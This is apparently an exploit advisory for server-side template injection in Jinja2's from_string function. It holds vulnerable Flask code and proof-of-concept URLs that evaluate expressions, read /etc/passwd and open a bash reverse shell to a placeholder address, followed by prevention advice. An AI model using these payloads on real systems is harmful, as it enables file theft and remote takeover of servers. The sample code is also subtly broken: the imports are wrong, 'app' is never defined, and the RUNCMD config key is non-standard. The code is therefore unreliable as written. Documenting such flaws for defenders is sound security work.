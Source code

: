 <div style="
    text-align: center;
">
<a href="https://ordina.nl" target="_blank"><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRBTgtBKmWL2i-76KccY9u0mrxAF9i0bPAJasA2YYeapgsL02AGlg" 
alt="Ordina  Research Lab" /></a>
</div>

#Jinja2 Command injection from_string function <br />
#Website: Ordina.nl <br />
Author: Jameel Nabbo   <br />
Email: jameel.nabbo[at]ordina.nl   <br />
Exploit-DB: https://www.exploit-db.com/exploits/46386 <br />

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:

```python

import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

```


<b>POC</b>
//Exploiting the username param
http://localhost:4444/?username={{4*4}} <br />
OUTPUT: Hello 16

Reading the /etc/passwd <br />
```c
http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
Templates are executable code.
Do not execute untrusted inputs such as [Jinja2,] templates.
Instead, pass variables to the ``render()`` method:


```python
import html

@app.route("/")
def index():
    username = request.values.get('username')
    return Jinja2.from_string('Hello  {{username}}').render(
        username=html.escape(username))
```

Note that ``Jinja2.from_string()`` **does not** enable autoescaping because it does not assume that the output is HTML.
Flask's ``render_template_string`` *does* 
autoescape by default:
http://flask.pocoo.org/docs/1.0/templating/#jinja-setup
